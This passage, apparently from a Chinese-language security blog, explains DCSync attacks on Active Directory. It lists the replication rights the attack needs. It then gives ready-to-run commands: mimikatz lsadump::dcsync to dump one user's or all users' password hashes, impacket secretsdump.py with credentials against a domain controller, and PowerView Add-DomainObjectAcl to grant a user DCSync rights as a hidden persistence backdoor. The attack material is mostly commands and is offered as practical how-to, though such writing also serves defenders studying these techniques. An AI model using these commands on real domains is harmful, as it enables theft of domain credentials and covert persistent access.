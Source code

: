 ```shell
复制目录更改（DS-Replication-Get-Changes）

全部复制目录更改 (DS-Replication-Get-Changes-All )

在过滤集中复制目录更改(可有可无)（DS-Replication-Get-Changes-In-Filtered-Set）
```

**注意**：对于只读域控制器(RODC)无法使用DCSync进行攻击，因为只读域控制器不能参与数据的同步

### 利用DCSync导出域内的hash

+ mimikatz的利用

  mimikatz自带一个dcsync的利用模块，我们可以利用mimikatz导出域内的hash

  当我们获取到域用户的权限时我们就可以dump域内hash，即使我们没有debug权限，因为DCsync去向域控发起请求并不是本地操作，而是通过网络请求

  执行以下命令dump hash

  ```shell
  #dump指定用户的信息，包括hash值
  mimikatz.exe "lsadump::dcsync /domain:hack.com /user:hack\Administrator" exit
  #导出域内所有用户的信息，包括hash值
  mimikatz.exe "lsadump::dcsync /domain:hack.com /all" exit
  mimikatz.exe "lsadump::dcsync /domain:hack.com /all /csv" exit
  ```
  
  ![dcsync-adminhash](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/dcsync-adminhash.png)
  
  一般域管用户和krbtgt用户的hash比较有用

+ 利用impacket项目中的脚本

  impacket中的srcretsdump.py支持通过DCSync技术导出域控制器中用户的hash.该工具可以使用提供的高权限用户的登陆凭据，从未加入域控制器的系统上远程连接至域控制器，并从注册表中导出本地账户的hash值，同时通过DCSync或卷影复制的方法，NTDS.dit文件中导出所有域用户的hash

  执行以下命令，并提供高权限用户的登陆凭据

  ```python
  python secretsdump.py hack.com/administratro:UU2FU3O@ADMIN@192.168.53.199 -just-dc-user "hack\Administrator"
  ```

  ![secretsdump](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/secretsdump.png)

  即使不在域内，也要跟DC在同一网段才可以dump

### 利用DCSync进行权限持久化

通过赋予标准用户DCSync的操作权限，从而制造隐蔽的后门，用户只需要前文提到的两条额外扩展权限即可控制DCSync

+ 通过powervive写入DCSync

  ```powershell
  Set-ExecutionPolicy Bypass -Scope Process
  Import-Module .\powerview.ps1
  Add-DomainObjectAcl -TargetIdentity "DC=hack,DC=com" -PrincipalIdentity hacker -Rights DCSync -Verbose
  ```

